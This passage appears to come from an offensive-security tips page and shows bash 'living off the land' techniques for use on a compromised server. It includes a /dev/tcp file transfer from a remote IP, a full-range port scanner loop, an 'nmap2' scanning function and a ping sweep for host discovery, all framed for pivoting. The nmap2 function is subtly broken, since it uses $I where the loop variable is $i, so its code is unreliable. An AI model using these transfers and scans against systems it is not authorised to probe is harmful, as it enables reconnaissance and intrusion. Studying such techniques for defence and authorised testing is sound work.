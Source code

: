 ```bash
# Receive that file
cat > myfile.txt < /dev/tcp/10.20.30.40/9090
```

---

### Port Scanner without Nmap

In the rare case where you are on a server that you can't just install nmap on (which isn't so rare in information security, now that I think about it), sometimes you are forced to live off the land without making changes to the target operating system and installing binaries. Sometimes all you want to do is run a port scan. Luckily with some fancy bash footwork, this can be scripted fairly easily:

```bash
for port in $(seq 1 65535); do (echo "blah" > /dev/tcp/YOUR_TARGET_IP_HERE/$port && echo "open - $port") 2>/dev/null; done
```
This takes a fair bit of time as it is sequential, but it works pretty well. Useful for pivoting, attempting to learn more about a particular machine that your target system only has access to. Also, this is fairly noisy, so any site worth their salt should be able to detect this as this is a fairly obvious and rudimentary scan.

To get even more fancy, you can simply copy-paste this into your interactive bash shell and invoke this as a function:

```bash
nmap2 () {
    [[ $# -ne 1 ]] && echo "Please provide server name" && return 1
    
    for i in {1..9000} ; do
        SERVER="$1"
        PORT=$I
        (echo  > /dev/tcp/$SERVER/$PORT) >& /dev/null &&
  
        echo "Port $PORT seems to be open"
    done
}
```
Then just run it like so: `nmap2 10.20.30.40`. Note however that in the interest of speed I only scanned ports 1 to 9000. Change as needed I guess.

---

### Host Scanner without Nmap

Similarly, the above can be modified to perform a host scan as well!

```bash
for ip in $(seq 1 255); do ping -c 1 10.20.30.$ip > /dev/null && echo "Online: 10.20.30.$ip"; done
```

I like this one because it's a clever use of the `&&` bash-ism, stating to only execute the `echo` statement if the preceeding statement is successful. However another alternative to the above, but uses the output of ping regardless of the status code of the ping command:
